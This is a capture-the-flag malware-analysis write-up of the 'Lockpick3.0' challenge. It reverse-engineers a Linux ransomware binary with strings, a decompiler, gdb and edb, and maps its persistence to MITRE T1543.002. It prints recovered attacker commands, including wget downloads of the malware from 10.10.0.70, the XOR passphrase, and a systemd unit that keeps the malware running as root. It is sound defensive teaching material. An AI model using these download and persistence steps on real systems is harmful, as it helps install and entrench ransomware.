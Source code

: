 # Lockpick3.0

### File in challenge
This taks provides us 3 files to analyze
- First is the binary/elf for the malware.
- Second is the vmem file which is the dump of the server's memory or a backup of the virtual machine.
- Third is the vmsn file: A .vmsn file in VMware is a snapshot file that stores the state of a virtual machine (VM) at a particular point in time, including the VM's memory, configuration, and potentially other aspects of its operational state

### Static Analysis
Running strings command on the binary and the snapshot, getting hashes for the malware and checking on virustotal.

```bash
md5sum ubuntu-client
a2444b61b65be96fc2e65924dee8febd  ubuntu-client
```

No detections on virustotal were found when searched for the same hash.\

Few things that we can see by running string on the main binary are as follows:
- We can see the GCC version that is being used for building the binary `GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0`.
- We can see that there are calls to api's like `upload`, `connect` etc.
- Apart from this another major string that we observe is `{"passphrase": "%s", "hostname": "%s"}`

Now checking for similar things in the snapshot file. But this file is quite large we can't just go through it line by line.\
We saw from the previous results that a passphrase is required. As per the general convention of a linux binary we usually pass arguments after the launching the binary, and that being the target it make sense to search for that string.

```bash
cat snap_res | grep ./ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
wget http://10.10.0.70:8000/ubuntu-client
wget http://10.10.0.70:8123/ubuntu-client
./ubuntu-client 
_=./ubuntu-client
wget http://10.10.0.70:8000/ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client 
root@ubuntu:~# ./ubuntu-client xGonnaGiveIt2Ya
[2P./ubuntu-client xGonnaGiveIt2Ya
[C./ubuntu-client xGonnaGiveIt2Yat2Ya
wget http://10.10.0.70:8000/ubuntu-client
wget http://10.10.0.70:8123/ubuntu-client
./ubuntu-client 
./ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
wget http://10.10.0.70:8123/ubuntu-client
[2P./ubuntu-client xGonnaGiveIt2Ya
```

We can see that with ubuntu-client there's an argument that is being passed.
This can be the xor string string utilized by the attacker, but for confirmation we have to analyze the code after decompilation.

### Advanced Static Analysis
Here we are going to decompile the binary and analyze the resulting pseudo code.\
After spending some time with the code, was able to obtain information on the following functions.
- XOR function definition and operation.
![xor_operation](/malware_analysis/LockPick3.0/poc_images/xor_operation.png)
- A function which invokes the above xor operation multiple times. The Decryption function.\
The input data is being xored with one input string.
![xor_miltiple_times](/malware_analysis/LockPick3.0/poc_images/xor_operation_multiple_times.png)
- One function from which the strings command was able to get the "passphrase and hostname".
- Function which mentions which type of files we have to encrypt.
![file_type](/malware_analysis/LockPick3.0/poc_images/file_types_to_encrypt.png)
- A function which is used to configure and perform curl operation. Here we can see it uses funcitons like curl_easy_init, curl_slist_append, curl_easy_setopt etc.
![curl_operation](/malware_analysis/LockPick3.0/poc_images/curl_operation.png)
- An encryption function which is using AES_256_cbc.
![encryption_mech](/malware_analysis/LockPick3.0/poc_images/encryption_mech.png)

In the entry function there is an indirect call that is going to the multiple xor function. From where the arguments are being passed to that function.\
The entry function has only two inputs which can be the input string that we are providing durint the function initiation from cmd. So the string provided can be the XOR key are looking for.

The current understanding is that the attacker first uses the XOR oepration to acquire the address and then later appends the endpoints that it wants to call which we saw from the string functionality.

### Advanced Dynamic Analysis
Here we are going to debug the binary using gdb.

For launching the binary in debuger and running it I was getting one error which was `error while loading shared libraries: libcjson.so.1: cannot open shared object file: No such file or directory`. For solving this we need to install the libcjson package on our machine.\
We can do the same using the following commands.
```bash
$ sudo apt-cache search libcjson # checking if package available for installation
libcjson-dev - Ultralightweight JSON parser in ANSI C (development files)
libcjson1 - Ultralightweight JSON parser in ANSI C
$ sudo apt install libcjson1
# confirm the installation by searching for the missing file
find / -name libcjson.so.1 2>/dev/null
/usr/lib/x86_64-linux-gnu/libcjson.so.1
```
Now we can run gdb or edb for performing the analysis.\
After loading gdb the first thing was to check the functions available with us using `info functions` command.

We can see from the pseudo code part we have one function on which the curl command is being formed and then used, we can see the same function so we are going to set a breakpoint there and run till that location. Just doing that we can see the endpoint which is being used.

Info on the curl command being used.
![curl](/malware_analysis/LockPick3.0/poc_images/curl.png)

Result by setting breakpoint and then run.
![gdb](/malware_analysis/LockPick3.0/poc_images/url_for_connect.png)

We can get the same result from edb as well.
For running edb the command is `edb --run ./ubuntu-cleint <pass>`.
![edb_res1](/malware_analysis/LockPick3.0/poc_images/edb-res-1.png)

After getting the base url we can easily answer the next question which asks us about the uploading files. We already got this information from the strings command.\
So with the base url we just add "/upload".

Final thing is getting what is the service that the attacker did for persistance mechanism and getting that service.\
There are two ways we can do this:
- first we keep the debugging on and get the results from the other decryption calls.\
We already know that there are multiple things that are going to get decrypted and then executed in the machine as that's how the malware is behaving, so if we try to look for the result from the other calls of xor function then we can get this information.
![edb_res2](/malware_analysis/LockPick3.0/poc_images/edb-res-2.png)
We can see that there is a service that is being created which will be restarted after every reboot and run as root. The full command utilized is as follows.
```
[Unit]
Description=Ubuntu Running
After=network.target

[Service]
ExecStart=/usr/bin/ubuntu-run xGonnaGive2Ya
Restart=always
User=root

[Install]
WantedBy=multi-user.target
```
- second is we analyze the vmem file using volatility.

One Question can be answered by taking other question as a hint.\
Task 6 asks for technique ID used for persistence. From Task 5 we can see that a service is being created by malware.\
From this we can just search `Mitre Attack technique user persistence linux service creation`.\
The first link that we get is [this](https://attack.mitre.org/techniques/T1543/002/).
From here we can see the technique Id is **T1543.002**

### Completed
